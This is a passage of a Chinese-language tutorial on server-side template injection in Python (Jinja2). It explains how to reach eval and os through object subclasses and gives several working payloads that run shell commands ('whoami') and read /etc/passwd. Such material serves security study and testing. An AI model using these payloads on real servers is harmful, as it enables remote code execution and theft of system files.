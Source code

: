 后面如法炮制，payload 如下

```
{{[].__class__.__base__.__subclasses__()[60].__init__.func_globals['linecache'].os.popen('whoami').read()}}
```

### python2&3 的方法

这里介绍 python2 和 python3 两个版本通用的方法

*   `__builtins__`代码执行
    

这种方法是比较常用的，因为他两种 python 版本都适用

首先`__builtins__`是一个包含了大量内置函数的一个模块，我们平时用 python 的时候之所以可以直接使用一些函数比如`abs`，`max`，就是因为`__builtins__`这类模块在 Python 启动时为我们导入了，可以使用`dir(__builtins__)`来查看调用方法的列表，然后可以发现`__builtins__`下有`eval`，`__import__`等的函数，因此可以利用此来执行命令。

把上面`find.py`脚本 search 变量赋值为`__builtins__`，然后找到第 140 个类`warnings.catch_warnings`含有他，而且这里的话比较多的类都含有`__builtins__`，比如常用的还有`email.header._ValueFormatter`等等，这也可能是为什么这种方法比较多人用的原因之一吧

再调用`eval`等函数和方法即可，payload 如下

```
{{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")}}

{{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}

{{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['__import__']('os').popen('whoami').read()}}

{{().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
```

又或者用如下两种方式，用模板来跑循环

```
{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
```

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("whoami").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
